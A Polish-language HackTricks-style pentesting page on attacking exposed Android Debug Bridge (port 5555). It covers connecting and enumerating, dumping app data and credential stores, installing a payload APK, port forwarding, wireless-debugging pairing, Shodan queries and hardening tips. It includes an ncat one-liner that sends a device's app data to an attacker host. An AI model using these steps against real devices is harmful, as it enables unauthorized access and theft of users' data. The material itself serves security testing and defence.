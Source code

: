 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Podstawowe informacje

Z [dokumentacji](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb) to narzędzie wiersza poleceń do komunikacji z urządzeniami i emulatorami opartymi na Androidzie. Typowe działania obejmują instalowanie pakietów, debugowanie i uzyskiwanie interaktywnej powłoki Unix na urządzeniu.

- Historyczny domyślny port TCP: 5555 (klasyczny tryb "adb tcpip").
- Nowoczesne debugowanie bezprzewodowe (Android 11+) wykorzystuje parowanie TLS i odkrywanie usług mDNS. Port połączenia jest dynamiczny i odkrywany za pomocą mDNS; może nie być 5555. Parowanie odbywa się za pomocą adb pair host:port, a następnie adb connect. Zobacz uwagi poniżej dotyczące implikacji ofensywnych.

Przykład odcisku nmap:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Połączenie

Jeśli znajdziesz ADB wystawione i dostępne, spróbuj szybko połączyć się i przeprowadzić enumerację:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Jeśli urządzenie wymusza uwierzytelnianie ADB (ro.adb.secure=1), będziesz musiał być wstępnie autoryzowany (USB RSA auth) lub użyć parowania debugowania bezprzewodowego Androida 11+ (co wymaga jednorazowego kodu wyświetlanego na urządzeniu).
- Niektóre obrazy producentów, wersje inżynieryjne/userdebug, emulatory, telewizory, STB i zestawy deweloperskie udostępniają adbd bez uwierzytelniania lub z adbd działającym jako root. W takich przypadkach zazwyczaj trafisz bezpośrednio do powłoki lub powłoki roota.

Aby uzyskać ogólny odniesienie do poleceń ADB, zobacz:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Szybkie Po Eksploatacji

Gdy masz powłokę, zweryfikuj uprawnienia i kontekst SELinux:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Enumeracja i przechwytywanie danych

- Lista aplikacji firm trzecich i ścieżek:
```bash
pm list packages -3
pm path <pkg>
```
- Jeśli masz roota (adb root lub su działa), możesz uzyskać dostęp do /data bezpośrednio. Jeśli nie, preferuj run-as dla aplikacji z możliwością debugowania:
```bash
# Bez roota, dla aplikacji z możliwością debugowania
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Z rootem
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Przydatne artefakty systemowe (wymagany root):
- /data/system/users/0/accounts.db i powiązane dane AccountManager
- /data/misc/wifi/ (konfiguracje/klucze sieciowe w starszych wersjach)
- Specyficzne dla aplikacji bazy danych SQLite i shared_prefs w /data/data/<pkg>

Możesz użyć tego do odzyskania wrażliwych informacji (np. sekrety aplikacji). Aby uzyskać informacje na temat rozważania danych Chrome, zobacz problem odniesiony [tutaj](https://github.com/carlospolop/hacktricks/issues/274).

### Wykonanie kodu i dostarczanie ładunku

- Zainstaluj i automatycznie przyznaj uprawnienia w czasie rzeczywistym:
```bash
adb install -r -g payload.apk         # -g przyznaje wszystkie uprawnienia w czasie rzeczywistym zadeklarowane w manifeście
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Uruchamiaj aktywności/usługi/nadawania bezpośrednio:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Przekierowywanie portów i pivotowanie

Nawet bez roota, adb może przekierowywać lokalne porty do portów urządzenia i odwrotnie. Jest to przydatne do uzyskiwania dostępu do usług lokalnych na urządzeniu lub do eksponowania usług atakującego na urządzeniu.

- Przekierowanie host->urządzenie (uzyskaj dostęp do lokalnej usługi urządzenia z hosta):
```bash
adb forward tcp:2222 tcp:22       # Jeśli urządzenie uruchamia SSH (np. Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Ekspozycja lokalnego serwera debugowania aplikacji
```
- Odwrócone urządzenie->host (pozwól urządzeniu dotrzeć do usługi na twoim hoście):
```bash
adb reverse tcp:1080 tcp:1080     # Aplikacje urządzenia mogą teraz dotrzeć do host:1080 jako 127.0.0.1:1080
```
- Ekstrakcja plików przez gniazda (bez zapisów na sdcard):
```bash
# Na hoście: nasłuchuj
ncat -lvp 9000 > dump.tar
# Na urządzeniu: wyślij katalog jako tar (root lub run-as w zależności od potrzeb)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Debugowanie bezprzewodowe (Android 11+)

Nowoczesny Android implementuje bezprzewodowe debugowanie chronione TLS z parowaniem po stronie urządzenia i odkrywaniem mDNS:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notatki
- Porty są dynamiczne; nie zakładaj 5555. Nazwy usług mDNS wyglądają jak:
- _adb-tls-pairing._tcp (parowanie)
- _adb-tls-connect._tcp (połączenie sparowane)
- _adb._tcp (legacy/plain)
- Jeśli mDNS jest filtrowany, klasyczne włączanie z pomocą USB może nadal działać w niektórych wersjach: `adb tcpip 5555` następnie `adb connect <ip>:5555` (do ponownego uruchomienia).

Implikacje ofensywne: jeśli możesz interagować z interfejsem użytkownika urządzenia (np. fizyczny dostęp lub błędna konfiguracja MDM mobilnego), aby włączyć debugowanie bezprzewodowe i zobaczyć kod parowania, możesz ustanowić długoterminowy sparowany kanał ADB bez kabla. Niektórzy producenci OEM udostępniają ADB przez TCP w obrazach inżynieryjnych/deweloperskich bez parowania — zawsze sprawdzaj.

## Wzmacnianie / Wykrywanie

Obrońcy powinni zakładać, że każdy dostępny adbd (TCP) stanowi krytyczne ryzyko.

- Wyłącz ADB i debugowanie bezprzewodowe, gdy nie są potrzebne. Cofnij autoryzacje debugowania USB w opcjach dewelopera.
- Upewnij się, że polityka sieciowa blokuje przychodzące TCP/5555 i odkrywanie ADB oparte na mDNS w nieufnych segmentach.
- Na urządzeniach pod twoją kontrolą:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # wyłącz nasłuchiwanie TCP (lub użyj: adb usb)
stop adbd; start adbd             # zrestartuj demon
```
- Monitoruj rekordy mDNS `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` w sieciach korporacyjnych i alerty dla nieoczekiwanych słuchaczy 5555.
- Inwentaryzuj niebezpieczne wersje: `getprop ro.debuggable`, `ro.build.type`, i `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Odnośniki

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, parowanie i nazwy usług mDNS: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
